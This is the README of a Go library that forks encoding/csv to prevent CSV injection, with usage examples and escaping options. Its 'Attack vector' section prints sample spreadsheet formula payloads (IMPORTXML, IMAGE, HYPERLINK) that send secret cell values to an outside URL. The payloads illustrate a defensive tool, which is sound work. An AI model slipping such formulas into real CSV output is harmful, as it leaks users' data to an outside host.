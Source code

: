 
# Safe CSV writer

[![tag](https://img.shields.io/github/tag/samber/go-safe-csv-writer.svg)](https://github.com/samber/go-safe-csv-writer/releases)
![Go Version](https://img.shields.io/badge/Go-%3E%3D%201.17-%23007d9c)
[![GoDoc](https://godoc.org/github.com/samber/go-safe-csv-writer?status.svg)](https://pkg.go.dev/github.com/samber/go-safe-csv-writer)
![Build Status](https://github.com/samber/go-safe-csv-writer/actions/workflows/test.yml/badge.svg)
[![Go report](https://goreportcard.com/badge/github.com/samber/go-safe-csv-writer)](https://goreportcard.com/report/github.com/samber/go-safe-csv-writer)
[![Coverage](https://img.shields.io/codecov/c/github/samber/go-safe-csv-writer)](https://codecov.io/gh/samber/go-safe-csv-writer)
[![Contributors](https://img.shields.io/github/contributors/samber/go-safe-csv-writer)](https://github.com/samber/go-safe-csv-writer/graphs/contributors)
[![License](https://img.shields.io/github/license/samber/go-safe-csv-writer)](./LICENSE)

A fork of `encoding/csv` (go v1.23.4) package from Go stdlib, preventing CSV injection and data exfiltration, while maintaining compatibility with the original library.

## 🥷 Attack vector

### Simple formula

The following CSV:

```csv
col1,col2,col3
-21-21,=A1,42
```

Would be rendered in Excel like this:

```csv
col1,col2,col3
-42,col1,42
```

### Advanced formula

The following CSV might request external resource and leak data.

```csv
userId,secret
1,secret1
2,secret2
3,"=IMPORTXML(CONCAT(""http://samuel-berthe.fr?dump="", CONCATENATE(A1:B6)), ""//a"")"
4,=IMAGE("http://samuel-berthe.fr?dump=" & INDIRECT("B2"))
5,=HYPERLINK("http://samuel-berthe.fr?dump=" & INDIRECT("B2"), "a link")
```

### Protect

See [https://georgemauer.net/2017/10/07/csv-injection.html](https://georgemauer.net/2017/10/07/csv-injection.html).

and [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)

## 🚀 Install

```sh
go get github.com/samber/go-safe-csv-writer
```

This library is v0 and follows SemVer strictly.

Some breaking changes might be made to exported APIs before v1.0.0.

## 🤠 Getting started

[GoDoc: https://godoc.org/github.com/samber/go-safe-csv-writer](https://godoc.org/github.com/samber/go-safe-csv-writer)

```go
import csv "github.com/samber/go-safe-csv-writer"

func main() {
    var buff strings.Builder

    writer := csv.NewSafeWriter(
        &buff,
        &SafetyOpts{
            ForceDoubleQuotes: true,
            EscapeCharEqual:   true,
        },
    )
    writer.Write([]string{"userId", "secret", "comment"})
    writer.Write([]string{"-21+63", "=A1", "foo, bar"})
    writer.Flush()

    if err := writer.Error(); err != nil {
        panic(err)
    }

    output := buff.String()
    // "userId","secret","comment"
    // "-21+63"," =A1","foo, bar"
}
```

## 🍱 Reference

```go
// Prototype:
func NewSafeWriter(w io.Writer, opts SafetyOpts) *SafeWriter
```

```go
// Available options:

type SafetyOpts struct {
    ForceDoubleQuotes bool
    EscapeCharEqual   bool
    EscapeCharPlus    bool
    EscapeCharMinus   bool
    EscapeCharAt      bool
    EscapeCharTab     bool
    EscapeCharCR      bool
}
```

```go
// Presets:

var FullSafety = SafetyOpts{
	ForceDoubleQuotes: true,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}

var EscapeAll = SafetyOpts{
	ForceDoubleQuotes: false,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}
```

## 🤝 Contributing

- Ping me on Twitter [@samuelberthe](https://twitter.com/samuelberthe) (DMs, mentions, whatever :))
- Fork the [project](https://github.com/samber/go-safe-csv-writer)
- Fix [open issues](https://github.com/samber/go-safe-csv-writer/issues) or request new features

Don't hesitate ;)

```bash
# Install some dev dependencies
make tools

# Run tests
make test
# or
make watch-test
```

## 👤 Contributors

![Contributors](https://contrib.rocks/image?repo=samber/go-safe-csv-writer)

## 💫 Show your support

Give a ⭐️ if this project helped you!

[![GitHub Sponsors](https://img.shields.io/github/sponsors/samber?style=for-the-badge)](https://github.com/sponsors/samber)

## 📝 License

Copyright © 2024 [Samuel Berthe](https://github.com/samber).

This project is [MIT](./LICENSE) licensed.
